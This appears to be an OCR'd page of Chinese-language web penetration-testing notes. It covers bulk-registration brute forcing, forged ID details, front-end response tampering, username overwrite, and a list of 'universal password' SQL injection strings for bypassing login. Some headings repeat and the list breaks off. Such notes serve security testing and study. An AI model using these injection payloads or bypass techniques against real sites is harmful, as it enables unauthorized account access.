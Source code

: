 <h3>3.批量注册</h3>
（提示：危害不足）
通常由于无验证码或者验证码不安全，再对用户名进行爆破即可
<hr/>

<h3>4.个人信息伪造</h3>
（提示：有的行业会危害不足，防沉迷可能不一样）
需填写身份证等信息，可任意构造绕过身份证与姓名（一般网站危害不足）
如果是防沉迷系统存在此类问题（危害应该足了）

<hr/>
<h3>5.前端验证审核绕过</h3>
1、任意填写注册信息，服务器会对信息进行审核，并通过返回状态给前端判断（如检测是否存在恶意标签等，对返回的状态可修改绕过）
2、步骤
使用正常账号或合规操作执行，拦截返回信息（判断信息）
使用需要绕过检测的操作，并将服务器返回判断信息替换为正确时的
<hr/>

<h3>6.用户名覆盖</h3>
未对数据库中的账号进行核对是否已经存在
利用地方：注册账号、修改个人信息


### 2、不安全验证邮箱/手机号

---


### 4.个人信息伪造

---


### 6.用户名覆盖

> 
<h2>二、任意用户登录</h2>
<h3>1、万能密码</h3>
对万能密码需要有一定的了解，并不是真的万能
有时候也得考虑
字符型 or 数值型
单引号 or 双引号
<pre><code>asp aspx万能密码

1：  "or "a"="a
2：  '.).or.('.a.'='.a 
3：  or 1=1--
4：  'or 1=1--
5：  a'or' 1=1--
6：  "or 1=1--
7：  'or.'a.'='a
8：  "or"="a'='a
9：  'or''='
10： 'or'='or'
11： admin'or 1=1#
